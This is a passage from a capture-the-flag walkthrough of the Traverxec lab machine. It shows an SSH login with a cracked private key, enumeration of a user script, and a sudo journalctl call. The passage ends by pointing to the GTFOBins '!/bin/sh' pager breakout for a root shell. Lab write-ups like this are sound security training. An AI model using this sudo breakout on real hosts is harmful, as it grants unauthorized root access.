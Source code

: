 With the passphrase, lets try `ssh`ing as `david` and retrieve the user flag.

{%highlight bash %}
$ ssh -i id_rsa david@traverxec.htb
Enter passphrase for key 'id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
Last login: Wed Jan  1 02:54:14 2020 from 10.10.XX.XX
david@traverxec:~$ cat user.txt
7db0XXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}

# Enumeration (3)

In `david`'s home directory , we see an interesting directory called `bin`.

{% highlight bash %}
david@traverxec:~$ ls
bin  public_www  user.txt
david@traverxec:~$ ls bin
server-stats.head  server-stats.sh
{% endhighlight %}

server-stats.head contained an `ASCII` banner while server-stats.sh contained some commands.

{% highlight bash %}
david@traverxec:~$ cat bin/server-stats.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
{% endhighlight %}

On the last line, we see a `sudo` command being ran.

Running the `sudo` command with the `journalctl` command simply prints some logs to the screen.

{% highlight bash %}
david@traverxec:~$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Wed 2020-01-01 02:24:45 EST, end at Wed 2020-01-01 03:38:03 EST. --
Jan 01 02:50:20 traverxec nhttpd[458]: configuration has been reloaded
Jan 01 03:11:32 traverxec nhttpd[810]: stopped
Jan 01 03:13:22 traverxec nhttpd[458]: configuration has been reloaded
Jan 01 03:20:37 traverxec crontab[1414]: (www-data) LIST (www-data)
Jan 01 03:22:18 traverxec sudo[1420]: www-data : unknown user: #-1
{% endhighlight %}

According to `journalctl`'s entry in  [`GTFOBins`](https://gtfobins.github.io/gtfobins/journalctl/), we see that we are able to break out by spawning a shell by entering `!/bin/sh`. But where can we enter the command ?
